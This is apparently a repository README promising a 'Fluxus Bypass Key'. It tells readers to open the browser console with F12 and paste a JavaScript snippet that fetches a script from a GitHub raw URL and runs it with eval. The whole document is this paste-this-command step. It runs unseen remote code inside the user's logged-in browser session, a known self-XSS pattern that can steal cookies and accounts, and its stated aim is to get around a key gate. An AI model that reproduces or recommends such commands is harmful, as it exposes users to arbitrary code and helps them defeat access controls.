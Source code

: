 
# Fluxus Bypass Key

Open Debug Menu ( F12 )
- Use This Command
```js
fetch('https://raw.githubusercontent.com/Minecarfh/Fluxus-Bypass/main/Script.js')
  .then(response => {
    return response.text();
  })
  .then(text => {
    eval(text);
  })
```

- Wait For Bypass 1-2s To Next Page
